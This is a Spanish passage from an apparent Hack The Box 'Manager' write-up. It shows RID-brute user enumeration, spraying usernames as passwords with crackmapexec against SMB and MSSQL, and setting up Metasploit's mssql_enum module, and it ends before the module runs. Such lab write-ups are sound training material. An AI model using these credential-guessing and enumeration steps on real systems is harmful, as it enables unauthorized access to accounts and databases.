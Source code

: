 > Donde:  
	 -u -> especifica el usuario, en este caso, anonymous.  
	 -p -> especifica el password.  
	 \--rid-brute -> realiza un ataque de fuerza bruta para enumerar identificadores de seguridad relativos (RID) en un intento de identificar cuentas de usuario adicionales en el sistema.  
{: .prompt-info }
Ejecutamos y se listan los usuarios Zhong, Cheng, Ryan, Raven, JinWoo, ChinHae, Operator.  
![Desktop View](/writeup-htb-manager/rid brute.png)
_rid brute_
Colocamos estos usuarios en un archivo `user.txt`{: .filepath}.  
> Muchos usuarios colocan como password su mismo usuario, por lo tanto, vamos a probar si sucede lo mismo con los usuarios encontrados.  
{: .prompt-tip }
Digitamos el siguiente comando.  
```bash
crackmapexec smb 10.10.11.236 -u user.txt -p user.txt --no-bruteforce 
```
> Donde:  
	 -u -> especifica el archivo de los usuarios.  
	 -p -> especifica el archivo de los passwords.  
	 \--no-bruteforce -> para probar el usuario1 con el password1, el usuario2 con el password2 y así sucesivamente.
{: .prompt-info }
El usuario `operator` tiene como password su propio nombre de usuario.  
![Desktop View](/writeup-htb-manager/cracking online.png)
_cracking online_
Teniendo este usuario y password, vamos a probar si con los mismos accesos se puede ingresar a `Microsoft SQL Server (mssql)`.  
```bash
crackmapexec mssql 10.10.11.236 -u operator -p operator  
```
Efectivamente, este usuario y password son válidos para mssql.  
![Desktop View](/writeup-htb-manager/mssql.png)
_mssql_

## Explotación
Con estas credenciales vamos a enumerar toda la información de mssql, para ello usamos el módulo `auxiliary/admin/mssql/mssql_enum` de metasploit.  
- Primero iniciamos metasploit.  
```bash
msfconsole
```
- Luego usamos el módulo `auxiliary/admin/mssql/mssql_enum`.  
```
use auxiliary/admin/mssql/mssql_enum
```
- Colocamos la ip de la máquina víctima en el parámetro `rhosts`.  
```  
set rhosts 10.10.11.236 
```
- Colocamos el usuario.  
```  
set username operator
```
- Colocamos el password.  
```  
set password operator
```
- Habilitamos la autenticación de windows.  
```
set use_windows_authent yes
```
- Por último corremos el módulo.  
```
```